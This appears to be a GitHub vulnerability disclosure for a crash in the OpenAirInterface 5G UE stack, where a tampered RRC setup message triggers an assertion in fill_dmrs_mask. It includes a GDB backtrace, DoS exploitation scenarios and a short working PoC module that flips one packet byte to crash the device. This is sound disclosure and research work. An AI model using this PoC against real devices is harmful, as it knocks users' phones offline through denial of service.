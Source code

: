 # mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63_report
**Vulnerability Soucce Code**
https://gitlab.eurecom.fr/oai/openairinterface5g/-/blob/0afa3f3193f77ce718148ca48cbf18b321d1cf23/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c#L3722

```
AssertFatal(l_prime>=0,"ERROR in configuration.Check Time Domain allocation of this Grant. l_prime < 1. row:%d, column:%d\n", row, column);
```

**Crash Context**  

In the 5G connection, the base station (sender) communicates with the user equipment (receiver), where the crash occurred on the user equipment. This crash took place during the RRC connection setup phase after the base station sent a tampered data packet. The backtrace reveals a `SIGABRT` error signal in the UEthread, with the primary function implicated being `fill_dmrs_mask` in the nr_mac_common.c file at line 3722

**1. Cause of Crash**
   - The function `fill_dmrs_mask` receives parameters such as `pdsch_Config`, `dmrs_TypeA_Position`, `NrOfSymbols`, `startSymbol`, `mappingtype`, and `length`. These parameters directly influence the configuration of the `DMRS` (Demodulation Reference Signal) mask, a critical component in handling downlink data. A malformed packet or invalid parameter values can lead to unexpected behavior in `fill_dmrs_mask`, potentially due to:
     - Out-of-range values or type mismatches.
     - Null or uninitialized pointers (e.g., `pdsch_Config`).
     - Unexpected values that violate assumptions in `nr_ue_process_dci` and related functions, triggering a `SIGABRT`.

**2. Vulnerability Potential**
   - **Memory Corruption**: The `fill_dmrs_mask` function could be susceptible to memory corruption if it does not handle out-of-bounds values properly. 
   - **Denial of Service (DoS)**: An attacker who can send malformed or unexpected data in RRC messages may repeatedly trigger this crash, causing the UE to repeatedly abort, thus leading to a Denial of Service (DoS).

**3. Exploitation Scenarios**
   - **Remote Trigger**: By crafting an RRC message with specific, malformed configurations (e.g., manipulating `NrOfSymbols`, `startSymbol`), an attacker could potentially cause memory corruption or crashes in UEs connected to a compromised gNB.
   - **Persistent UE Crash Loop**: If the vulnerability is exploited in an environment where the UE continually attempts reconnections, a persistent crash loop could occur, effectively rendering the UE unusable.

**Summary for CVE Submission**
The vulnerability appears to be triggered by malformed parameters in RRC messages, resulting in an unhandled exception in `fill_dmrs_mask`. This may be exploited to cause denial of service by repeated crashes or, potentially, memory corruption if further validation gaps are discovered. Additional research is needed to confirm exploitation potential, but this crash highlights a flaw in handling tampered packet inputs in RRC setup, affecting the UE’s stability and security.

**GDB Debug Information**
```console
Thread 13 "UEthread" received signal SIGABRT, Aborted.
[Switching to Thread 0x7a2574e00700 (LWP 42174)]
__GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
51	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
#1  0x00007a25857837f1 in __GI_abort () at abort.c:79
#2  0x00005e2e7c80fea0 in fill_dmrs_mask (pdsch_Config=0x1, dmrs_TypeA_Position=<optimized out>, NrOfSymbols=1, startSymbol=1, mappingtype=<optimized out>, length=1) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c:3722
#3  0x00005e2e7c927c83 in nr_ue_process_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=0x5e2e86471f20, dci_ind=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:1308
#4  0x00005e2e7c92b360 in nr_ue_process_dci_indication_pdu (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=193, slot=14, dci=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:629
#5  0x00005e2e7c915cd8 in handle_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1068
#6  0x00005e2e7c9161e2 in nr_ue_dl_indication (dl_info=0x7a2574d93230, ul_time_alignment=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1168
#7  0x00005e2e7c830a1b in nr_ue_pdcch_procedures (ue=0x7a25879c9010, proc=<optimized out>, pdcch_est_size=<optimized out>, pdcch_dl_ch_estimates=<optimized out>, phy_data=<optimized out>, n_ss=<optimized out>, rxdataF=0x7a2574de79e0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:542
#8  0x00005e2e7c835d1d in phy_procedures_nrUE_RX (ue=0x7a25879c9010, proc=<optimized out>, phy_data=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:1212
#9  0x00005e2e7c7ff128 in UE_processing (rxtxD=0x7a2574dff8b0) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:622
#10 0x00005e2e7c800441 in UE_thread (arg=0x7a25879c9010) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:911
#11 0x00007a258730e6db in start_thread (arg=0x7a2574e00700) at pthread_create.c:463
#12 0x00007a258586461f in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
(gdb) 

```

**Malformed Packet Send From the Base Station**
![Malformed Packet](https://github.com/qiqingh/mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63_report/blob/main/pcap.png)


**PoC Code**
The following PoC code generates a falsified packet sent from the Base Station (sender) to the User Equipment (receiver). Due to a vulnerability in the User Equipment, this packet causes the device to crash, resulting in a Denial of Service (DoS).

To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;

    // Declare filters
    f1 = wd_filter("nr-rrc.rrcSetup_element");

    return 0;
}

// TX
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters
    wd_register_filter(ctx->wd, f1);

    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed rrc setup sent!");
        pkt_buf[146 - 48] = 0x80;
        return 1;
    }

    return 0;
}

```
logo

